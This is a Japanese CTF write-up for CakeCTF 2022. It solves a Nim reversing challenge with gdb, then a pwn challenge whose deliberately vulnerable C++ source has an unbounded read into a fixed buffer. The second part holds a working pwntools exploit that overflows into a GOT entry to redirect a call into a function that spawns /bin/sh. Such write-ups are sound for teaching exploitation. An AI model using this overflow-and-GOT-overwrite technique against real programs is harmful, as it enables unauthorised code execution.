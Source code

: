 # CakeCTF 2022

> **Warning**
> 競技終了後に解いたため、内容については一切保証致しません。

- [CakeCTF 2022](#cakectf-2022)
  - [rev/nimrev](#revnimrev)
    - [solution](#solution)
    - [FLAG](#flag)
  - [pwn/str.vs.cstr](#pwnstrvscstr)
    - [solution](#solution-1)
    - [ref](#ref)

## rev/nimrev

warmup

Have you ever analysed programs written in languages other than C/C++?

### solution

実行例

```bash
$ ./chall
AAAAAAA
Wrong...
```

`NimMainModule`内の`readLine_systemZio_271`で標準入力から文字列を受け取ることがわかりました。
![](./images/rimrev.png)

`eqString`あたりで比較用の文字列がレジスタに現れるだろうと思い、ステップ実行を続けると`RCX: 0x7f4ec8eb20a0 ("CakeCTF{s0m3t1m3s_n0t_C}")`が現れました。


```bash
gdb-peda$
[----------------------------------registers-----------------------------------]
RAX: 0x18
RBX: 0x5579cd2f5070 (<__libc_csu_init>: endbr64)
RCX: 0x7f4ec8eb20a0 ("CakeCTF{s0m3t1m3s_n0t_C}")
RDX: 0x7f4ec8eb2090 --> 0x18
RSI: 0x0
RDI: 0xffffff82
RBP: 0x7ffe29560580 --> 0x7ffe29560590 --> 0x7ffe295605b0 --> 0x7ffe295605e0 --> 0x0
RSP: 0x7ffe29560540 --> 0x7f4ec8eb1050 --> 0x36 ('6')
RIP: 0x5579cd2f4fa4 (<NimMainModule+425>:       mov    edx,0x0)
R8 : 0x7f4ec8eb1060 ('A' <repeats 54 times>)
R9 : 0x7c ('|')
R10: 0x7f4ec910ebe0 --> 0x5579ce5b26a0 --> 0x0
R11: 0x246
R12: 0x5579cd2eb320 (<_start>:  endbr64)
R13: 0x7ffe295606d0 --> 0x1
R14: 0x0
R15: 0x0
EFLAGS: 0x206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
```

フラグ発見時のPC

```bash
gdb-peda$ disass
Dump of assembler code for function NimMainModule:
   0x00005579cd2f4f73 <+376>:   mov    rdx,rax
   0x00005579cd2f4f76 <+379>:   call   0x5579cd2f4ad7 <map_main_11>
   0x00005579cd2f4f7b <+384>:   mov    QWORD PTR [rbp-0x30],rax
   0x00005579cd2f4f7f <+388>:   mov    QWORD PTR [rbp-0x28],0x0
   0x00005579cd2f4f87 <+396>:   cmp    QWORD PTR [rbp-0x30],0x0
   0x00005579cd2f4f8c <+401>:   je     0x5579cd2f4f97 <NimMainModule+412>
   0x00005579cd2f4f8e <+403>:   mov    rax,QWORD PTR [rbp-0x30]
   0x00005579cd2f4f92 <+407>:   mov    rax,QWORD PTR [rax]
   0x00005579cd2f4f95 <+410>:   jmp    0x5579cd2f4f9c <NimMainModule+417>
   0x00005579cd2f4f97 <+412>:   mov    eax,0x0
   0x00005579cd2f4f9c <+417>:   mov    rdx,QWORD PTR [rbp-0x30]
   0x00005579cd2f4fa0 <+421>:   lea    rcx,[rdx+0x10]
=> 0x00005579cd2f4fa4 <+425>:   mov    edx,0x0
   0x00005579cd2f4fa9 <+430>:   mov    rsi,rax
   0x00005579cd2f4fac <+433>:   mov    rdi,rcx
   0x00005579cd2f4faf <+436>:   call   0x5579cd2f49a9 <join_main_42>
   0x00005579cd2f4fb4 <+441>:   mov    QWORD PTR [rbp-0x28],rax
   0x00005579cd2f4fb8 <+445>:   mov    rdx,QWORD PTR [rbp-0x28]
   0x00005579cd2f4fbc <+449>:   mov    rax,QWORD PTR [rbp-0x40]
   0x00005579cd2f4fc0 <+453>:   mov    rsi,rdx
   0x00005579cd2f4fc3 <+456>:   mov    rdi,rax
   0x00005579cd2f4fc6 <+459>:   call   0x5579cd2f4c46 <eqStrings>
End of assembler dump.
gdb-peda$
```

### FLAG

```bash
CakeCTF{s0m3t1m3s_n0t_C}
```


## pwn/str.vs.cstr

Which do you like, C string or C++ string?

### solution

```bash
$ checksec --file=./chall
[*] 'chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
$ file ./chall
./chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=3f2398faba2c3d21dae9eb476787cf24d420cd65, for GNU/Linux 3.2.0, not stripped
```

`main.cpp`を開くと`char _c_str[0x20];`から、`std::cin >> test.c_str();`でサイズ指定がないため、getsのようなBOFが起きそうなことがわかる。

```cpp
#include <array>
#include <iostream>

struct Test {
  Test() { std::fill(_c_str, _c_str + 0x20, 0); }
  char* c_str() { return _c_str; }
  std::string& str() { return _str; }

private:
  __attribute__((used))
  void call_me() {
    std::system("/bin/sh");
  }

  char _c_str[0x20];
  std::string _str;
};

int main() {
  Test test;

  std::setbuf(stdin, NULL);
  std::setbuf(stdout, NULL);

  std::cout << "1. set c_str" << std::endl
            << "2. get c_str" << std::endl
            << "3. set str" << std::endl
            << "4. get str" << std::endl;

  while (std::cin.good()) {
    int choice = 0;
    std::cout << "choice: ";
    std::cin >> choice;

    switch (choice) {
      case 1: // set c_str
        std::cout << "c_str: ";
        std::cin >> test.c_str();
        break;

      case 2: // get c_str
        std::cout << "c_str: " << test.c_str() << std::endl;
        break;

      case 3: // set str
        std::cout << "str: ";
        std::cin >> test.str();
        break;

      case 4: // get str
        std::cout << "str: " << test.str() << std::endl;
        break;

      default: // otherwise exit
        std::cout << "bye!" << std::endl;
        return 0;
    }
  }
  
  return 1;
}
```

`c_str`へのBOFを利用して、適当なGOTを書き換えて`Test::call_me`を呼び出す。

```python
# based on https://miso-24.hatenablog.com/entry/2022/09/04/173330#strvscstr
from subprocess import call
from pwn import *

binfile = "./chall"
context.binary = binfile
elf = ELF(binfile)

call_me = elf.symbols["_ZN4Test7call_meEv"]
got_sample = elf.got["_ZNKSt9basic_iosIcSt11char_traitsIcEE4goodEv"]

HOST='pwn1.2022.cakectf.com'
PORT=9003

conn = process(binfile)
# conn = remote(HOST, PORT)

conn.sendlineafter("choice:", "1")  # 1. set c_str

payload = b"A" * 0x20
payload += p64(got_sample)
conn.sendlineafter(":", payload)
conn.sendlineafter(":", "3")        # 3. set str
conn.sendlineafter(":", p64(call_me))

conn.interactive()
```

競技は終わっていたため、ローカルでのコマンドの呼び出しで確認しました。


```bash
$python solver.py
...
$ls
chall  main.cpp  str.py
```

### ref

- https://nanimokangaeteinai.hateblo.jp/entry/2022/09/09/235615#pwn-105-strvscstr-88-solves
- https://nanimokangaeteinai.hateblo.jp/entry/2022/09/09/235615#pwn-105-strvscstr-88-solves